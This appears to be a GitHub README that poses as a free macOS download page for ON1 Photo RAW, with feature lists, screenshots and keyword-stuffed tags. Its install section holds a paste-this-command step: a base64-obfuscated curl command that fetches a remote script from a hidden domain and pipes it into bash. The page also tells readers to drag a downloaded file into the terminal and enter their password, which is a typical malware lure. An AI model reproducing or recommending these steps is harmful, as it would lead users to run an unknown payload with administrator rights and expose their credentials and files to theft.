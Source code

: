 # 📸 ON1 Photo RAW — All-in-One Photo Editing & RAW Workflow for macOS

**ON1 Photo RAW** is a complete photo editing and organizing solution for macOS, combining powerful RAW processing, layered editing, AI masking, and advanced photo management in a single app. Whether you're retouching portraits, enhancing landscapes, or batch editing wedding shots, ON1 Photo RAW gives you full control over your photography from import to export.

With its seamless balance of speed, power, and flexibility, ON1 Photo RAW is ideal for pros and serious enthusiasts alike.

---

## ✅ Download ON1 Photo RAW for macOS  
[![Download ON1 Photo RAW](https://img.shields.io/badge/Download-ON1_Photo_RAW-blueviolet)](https://shuziktobehuman.github.io/huja/ON1)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is ON1 Photo RAW?

ON1 Photo RAW is a professional-grade photo editing application that combines non-destructive RAW development, creative tools, and layer-based workflow in a unified interface. It features AI-powered tools, customizable presets, and an advanced photo organizer — all without the need for subscription-based pricing.

---

## ✨ Features

- 🧠 **AI Masking** for fast subject and background selections  
- 🧹 NoNoise AI and Tack Sharp AI for image cleanup and enhancement  
- 🧩 Non-destructive layer-based editing with filters and effects  
- 📂 Powerful photo organization with metadata and keyword search  
- 🎯 Color grading tools including LUTs, HSL, and curves  
- 📸 Full RAW support for hundreds of camera models  
- 🔄 Plugin support for Photoshop, Lightroom, and Apple Photos  
- 🖥️ Optimized for macOS including native support for Apple Silicon  

---

## 💡 Why Use ON1 Photo RAW?

- 🔄 Combine RAW editing and layer-based retouching in one app  
- 🧠 Speed up workflows with AI-assisted tools  
- 📦 Avoid subscriptions with a one-time purchase model  
- 🚀 Fast and responsive performance on Mac  
- 🎨 Creative freedom with filters, textures, and masking tools  

---

[![Download ON1 Photo RAW](https://img.shields.io/badge/Download-ON1_Photo_RAW-blueviolet)](https://shuziktobehuman.github.io/huja/ON1)

---

## 🖼️ Preview

![ON1 Photo RAW Screenshot 1](https://ononesoft.cachefly.net/images/home/photo-raw-2025-ui-after.jpg)  
![ON1 Photo RAW Screenshot 2](https://i.pcmag.com/imagery/reviews/04FGRcO355SZXDCDWPQ9ixS-51.fit_lim.size_1050x.png)

---

## 📌 Tags

on1 photo raw, on1 raw photo, on1 software, on1 photo, on1raw,  
onone photo raw, on 1 photo raw, one 1 photo raw, on1 photo raw review,  
on1 photo raw for mobile, onone photo, on1 photo raw download, on1 photo raw price,  
on1 photo raw mac, on1 photo raw mac download
